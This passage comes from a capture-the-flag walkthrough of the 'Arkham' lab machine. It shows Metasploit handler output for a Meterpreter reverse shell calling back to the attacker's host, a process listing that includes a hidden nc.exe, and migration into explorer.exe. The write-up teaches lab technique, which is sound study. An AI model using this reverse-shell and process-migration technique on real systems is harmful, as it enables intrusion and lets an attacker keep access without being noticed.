 ```
[*] Started reverse TCP handler on 10.10.14.9:443 
msf5 exploit(multi/handler) > [*] Sending stage (180291 bytes) to 10.10.10.130
[*] Meterpreter session 1 opened (10.10.14.9:443 -> 10.10.10.130:49698) at 2019-09-22 03:51:12 -0400

msf5 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > 
```

From our new meterpreter session I can enumerate running processes with the `ps` command. Below is a cut-down version of the output:

```
meterpreter > ps

Process List
============

 PID   PPID  Name                       Arch  Session  User           Path
 ---   ----  ----                       ----  -------  ----           ----
 0     0     [System Process]                                         
 4     0     System                                                   
 76    624   SecurityHealthService.exe                                                                  
 368   776   wsmprovhost.exe            x64   0        ARKHAM\Batman  C:\Windows\System32\wsmprovhost.exe     
 4308  624   svchost.exe                                              
 4460  1020  sihost.exe                 x64   1        ARKHAM\Batman  C:\Windows\System32\sihost.exe
 4480  624   svchost.exe                x64   1        ARKHAM\Batman  C:\Windows\System32\svchost.exe
 4512  368   nc.exe                     x86   0        ARKHAM\Batman  C:\Windows\System32\spool\drivers\color\nc.exe
 4520  1020  taskhostw.exe              x64   1        ARKHAM\Batman  C:\Windows\System32\taskhostw.exe
 4752  776   WmiPrvSE.exe                                             
 4780  372   ctfmon.exe                 x64   1                       
 4800  776   ShellExperienceHost.exe    x64   1        ARKHAM\Batman  C:\Windows\SystemApps\ShellExperienceHost_cw5n1h2txyewy\ShellExperienceHost.exe
 5004  4960  explorer.exe               x64   1        ARKHAM\Batman  C:\Windows\explorer.exe
 5040  1036  conhost.exe                                              
 5080  776   SearchUI.exe               x64   1        ARKHAM\Batman  C:\Windows\SystemApps\Microsoft.Windows.Cortana_cw5n1h2txyewy\SearchUI.exe

```

A value of 1 in the "Session" column indicates an interactive process. Now to try and migrate to one of these by using the `migrate` command and specifying the PID of the desired process. Let's go with explorer.exe

```
meterpreter > migrate 5004
[*] Migrating from 1856 to 5004...
[*] Migration completed successfully.
```

---

[arkham]: PS C:\Users\Batman\Documents> whoami